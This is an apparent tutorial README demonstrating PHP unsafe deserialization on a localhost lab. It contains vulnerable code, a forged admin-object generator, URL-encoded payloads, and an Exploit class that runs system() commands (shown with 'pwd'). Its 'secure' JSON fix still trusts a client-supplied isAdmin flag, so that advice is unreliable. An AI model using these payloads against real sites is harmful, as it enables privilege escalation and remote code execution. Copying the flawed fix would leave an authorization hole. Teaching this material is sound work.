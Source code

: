 # UNSAFE DESERALIZATION Vulnerability Example
An Unsafe Deserialization is a vulnerability that uses PHP Objects to execute code in a PHP Website.

### Vulnerable Code

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize_original.php

```
<?php
/*Define the User Class */

class User {
    public $username;
    public $isAdmin = false;
}
/* Show a Text if the User has isAdmin in true*/

$data = unserialize($_GET['data']);
if ($data->isAdmin) {
    echo "¡Acceso de administrador concedido!";
}
?>
```
This script defines an object User with a param "isAdmin" if you put an object user with "isAdmin" as True you get a succesful login.

#### Get Exploit

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/eje_desi.php

```
<?php
class User {
    public $username = "hacker";
    public $isAdmin = true;
}
echo urlencode(serialize(new User()));
?>
```
This website generates a serialize object "User" that you can use to login into the website.

![alt text](./images/Unsafe%20User.png)

Put this object in the URL that you use to login into the website.


http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize_original.php?data=O%3A4%3A"User"%3A2%3A%7Bs%3A8%3A"username"%3Bs%3A6%3A"hacker"%3Bs%3A7%3A"isAdmin"%3Bb%3A1%3B%7D


![alt text](./images/Login%20with%20object.png)

To execute code in the server you can Inject an Exploit class, this class executes the command in the cmd param in the server where the object is destroyed.

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize.php

```
/*Define the Exploit Class */
class Exploit {
    public $cmd;
    
    /* Execute the command in the cmd param when the object is destoyed */
    public function __destruct() {
        system($this-> cmd);
    }
}
?>
```

This website generate a exploit that execute the command `pwd`

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/exploit.php

![alt text](./images/Create%20Exploit%20Object.png)

#### Execute Exploit
If you put this string in this object in this website you get the result of the `pwd` command

```
http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize.php?data=O%3A7%3A"Exploit"%3A1%3A%7Bs%3A3%3A"cmd"%3Bs%3A3%3A"pwd"%3B%7D/
```

### Secure Code

You can secure this code if remplace the object login with a JSON and login with the JSON.

```
<?php
/*Define the User Class */
class User {
    public $username;
    public $isAdmin = false;
}
/* Get the data content or create a empty object if data not exists */
$json = $_GET['data'] ?? "{}";

/*Decode the JSON*/
$data = json_decode($json, true);

/* If the JSON decoded isn't a array finish the execution*/
if (!is_array($data)) {
    die("Formato de datos no valido");
}

/* If in the JSON Array Exists the isAdmin param and is true shows a text for the Admin session */
if (isset ($data ["isAdmin"]) && $data["isAdmin"] === true) {
    echo "Acceso de administrador concedido";
} else {
    echo "Acceso normal";
}
?>
```

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize_json.php?data={"username":"hacker","isAdmin":true}

This Website returns a login as Admin.

![alt text](./images/JSON%20Login.png)

If you want to create a more secure code you can verify the JSON, if you insert a not valid param in the json the PHP execution stops.

http://localhost/Examples-of-Web-Vulnerabilities/UNSAFE_DESERIALIZATION/deserialize_full.php?data={"isAdmin":true,%20"bypass":"0"}

![alt text](./images/Invalid%20JSON%20Example.png)